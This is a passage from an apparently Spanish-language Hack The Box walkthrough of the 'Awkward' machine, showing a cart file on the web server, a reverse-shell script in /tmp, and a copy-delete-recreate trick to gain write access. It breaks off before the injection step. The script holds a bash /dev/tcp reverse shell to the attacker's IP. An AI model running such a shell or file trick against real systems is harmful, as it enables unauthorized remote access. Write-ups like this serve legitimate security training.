 ![](/assets/img/HTB/Awkward/pagina1.png)

En el directorio `cart` de la web se crea un archivo que contiene los datos

```shell
bean@awkward:/var/www/store/cart$ ls
dasf-1242-412-ae41
bean@awkward:/var/www/store/cart$ cat dasf-1242-412-ae41
***Hat Valley Cart***
item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
bean@awkward:/var/www/store/cart$
```

Primero crearemos un archivo `reverse.sh` en `/tmp` que nos ejecute una reverse shell

```shell
bean@awkward:/tmp$ cat reverse.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.143/443 0>&1
bean@awkward:/tmp$ chmod +x reverse.sh
bean@awkward:/tmp$
```

Necesitaremos editar el archivo que se creó, pero no tenemos permisos de escritura así que haremos una copia, lo borramos y renombraremos

```shell
bean@awkward:/var/www/store/cart$ cp dasf-1242-412-ae41 back
bean@awkward:/var/www/store/cart$ rm -f dasf-1242-412-ae41
bean@awkward:/var/www/store/cart$ cp back dasf-1242-412-ae41
bean@awkward:/var/www/store/cart$
```
